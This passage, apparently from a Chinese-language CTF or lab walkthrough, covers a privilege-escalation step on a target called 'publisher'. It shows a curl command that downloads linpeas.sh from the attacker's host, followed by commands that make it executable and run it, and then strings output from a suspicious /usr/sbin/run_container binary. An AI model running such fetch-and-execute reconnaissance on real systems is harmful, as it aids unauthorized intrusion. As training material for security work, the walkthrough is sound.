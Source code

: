 
### **6. 使用** **​**​**​`linpeas`​**​**​** **查找提权漏洞**

将 `linpeas.sh` 脚本上传至目标机器：

```bash
think@publisher:~$ curl 192.168.205.141:8000/linpeas.sh -o /home/think/linpeas.sh  
think@publisher:~$ chmod +x linpeas.sh  
think@publisher:~$ bash linpeas.sh
```

在脚本输出中，发现一个未知的二进制文件 `/usr/sbin/run_container`，通过 `strings` 命令进行分析：

```bash
think@publisher:~$ strings /usr/sbin/run_container
/lib64/ld-linux-x86-64.so.2
libc.so.6
__stack_chk_fail
execve
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
GLIBC_2.4
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
/bin/bash
/opt/run_container.sh
:*3$"
GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.8061
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
run_container.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
_edata
__stack_chk_fail@@GLIBC_2.4
__libc_start_main@@GLIBC_2.2.5
execve@@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
__bss_start
main
__TMC_END__
_ITM_registerTMCloneTable
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
```